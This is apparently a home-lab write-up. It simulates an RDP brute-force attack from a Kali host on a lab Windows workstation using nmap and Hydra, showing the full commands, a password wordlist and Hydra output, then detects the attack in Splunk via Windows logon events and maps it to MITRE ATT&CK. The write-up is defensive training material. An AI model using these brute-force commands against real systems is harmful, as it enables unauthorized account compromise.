


## Objective

Simulate an RDP brute-force attack from the Kali attacker machine against a domain-joined Windows workstation, then detect and analyze the attack using Splunk SIEM.

## Prerequisites

| Component | Details |
|---|---|
| Target Host | `WS01` — `192.168.10.21` (Windows Client) |
| Attacker Host | `kali-attacker` — `192.168.10.99` (Kali Linux) |
| Domain Account | `CORP\jsmith` |
| SIEM | Splunk Enterprise on `192.168.10.10` |
| Log Source | Windows Security Event Log (forwarded via Splunk Universal Forwarder) |

> **Note:** Ensure the Splunk Universal Forwarder on `WS01` is actively forwarding Windows Security logs before proceeding.

---

## Phase 1 — Target Preparation (WS01)

All commands in this phase are run on **WS01** in a PowerShell terminal as **Administrator**.

### 1.1 Enable Remote Desktop

```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

Verify RDP is enabled:

```powershell
Get-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections"
```

```
fDenyTSConnections : 0
PSPath             : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal
                     Server
PSParentPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control
PSChildName        : Terminal Server
PSDrive            : HKLM
PSProvider         : Microsoft.PowerShell.Core\Registry
```

### 1.2 Grant RDP Access to the Target Account

```powershell
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "CORP\jsmith"
```

Verify:

```powershell
Get-LocalGroupMember -Group "Remote Desktop Users"
```

```
ObjectClass Name        PrincipalSource
----------- ----        ---------------
User        CORP\jsmith ActiveDirectory
```

### 1.3 Allow ICMP (Ping)

Enable the firewall rule for ICMPv4 echo requests across all profiles:

```powershell
Enable-NetFirewallRule -Name FPS-ICMP4-ERQ-In
Set-NetFirewallRule -Name FPS-ICMP4-ERQ-In -Profile Domain,Private,Public
```

---

## Phase 2 — Attack Simulation (Kali)

All commands in this phase are run on the **Kali attacker** machine.

### 2.1 Verify Target Connectivity

Confirm RDP port `3389` is open on the target:

```bash
nmap -p 3389 192.168.10.21
```

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-12 21:05 +0700
Nmap scan report for 192.168.10.21
Host is up (0.0017s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
MAC Address: 08:00:27:9F:DA:FF (Oracle VirtualBox virtual NIC)
```

### 2.2 Prepare the Attack Environment

```bash
cd ~/Desktop && mkdir -p ADLab && cd ADLab
```

### 2.3 Create a Password List

Create a wordlist with common passwords. The last entry is the correct password to simulate a successful brute-force:

```bash
cat << 'EOF' > passwords.txt
Password123
Password456
Welcome1
Summer2024
Winter2024
Admin123
Password123!
letmein
123456
qwerty
monkey
dragon
master
abc123
JohnPassword123!
EOF
```

### 2.4 Execute the Brute-Force Attack

Use **Hydra** to perform the RDP brute-force attack:

```bash
hydra -l jsmith -P passwords.txt rdp://192.168.10.21 -V -f -t 1
```

| Flag | Purpose |
|---|---|
| `-l jsmith` | Target username |
| `-P passwords.txt` | Password wordlist |
| `-V` | Verbose — show each attempt |
| `-f` | Stop after first valid credential |
| `-t 1` | Single thread (sequential attempts) |

> **Note:** `crowbar` was not used because it relies on `xfreerdp` session creation, which may not generate proper Windows Security log events for detection purposes.

Output:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-12 22:22:15
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 15 login tries (l:1/p:15), ~15 tries per task
[DATA] attacking rdp://192.168.10.21:3389/
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Password123" - 1 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Password456" - 2 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Welcome1" - 3 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Summer2024" - 4 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Winter2024" - 5 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Admin123" - 6 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "Password123!" - 7 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "letmein" - 8 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "123456" - 9 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "qwerty" - 10 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "monkey" - 11 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "dragon" - 12 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "master" - 13 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "abc123" - 14 of 15 [child 0] (0/0)
[ATTEMPT] target 192.168.10.21 - login "jsmith" - pass "JohnPassword123!" - 15 of 15 [child 0] (0/0)
[3389][rdp] host: 192.168.10.21   login: jsmith   password: JohnPassword123!
[STATUS] attack finished for 192.168.10.21 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-12 22:22:46
```

Hydra found the valid credential `jsmith` / `JohnPassword123!` after 14 failed attempts and 1 success.

---

## Detection & Analysis (Splunk)

### 3.1 Search for Authentication Events

Open **Splunk Web** (`http://192.168.10.10:8000`) and run the following SPL query:

```splunk
index=windows host="WS01" EventCode IN (4624, 4625)
| table _time host EventCode TargetUserName src_ip
| sort -_time
```

### 3.2 Results



The query returns a sequence of authentication events from the Windows Security log on `WS01`, revealing the brute-force pattern.
### Relevant Windows Security Events

| Event ID | Description |
|---|---|
| 4625 | Failed logon attempt |
| 4624 | Successful logon |

| Attribute | Value |
|---|---|
| Source IP | `192.168.10.99` (Kali attacker) |
| Target Host | `WS01` (`192.168.10.21`) |
| Target Account | `CORP\jsmith` |
| Protocol | RDP (TCP/3389) |
| Failed Attempts (4625) | 14 |
| Successful Logon (4624) | 1 |

The Splunk logs show **14 consecutive failed logon events (Event ID 4625)** followed by **1 successful logon (Event ID 4624)**, all originating from `192.168.10.99` and targeting the account `jsmith` within a short time window. This pattern is consistent with an **RDP brute-force password attack** — a high volume of failed authentication attempts from a single source, culminating in a successful credential compromise.

---

## MITRE ATT&CK Mapping

| Tactic                | Technique ID                                                | Technique Name                           |
| --------------------- | ----------------------------------------------------------- | ---------------------------------------- |
| **Reconnaissance**    | [T1595.001](https://attack.mitre.org/techniques/T1595/001/) | Active Scanning: Scanning IP Blocks      |
| **Credential Access** | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) | Brute Force: Password Guessing           |
| **Initial Access**    | [T1078](https://attack.mitre.org/techniques/T1078/)         | Valid Accounts                           |
| **Lateral Movement**  | [T1021.001](https://attack.mitre.org/techniques/T1021/001/) | Remote Services: Remote Desktop Protocol |


- [Brute Force: Password Guessing, Sub-technique T1110.001 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1110/001/)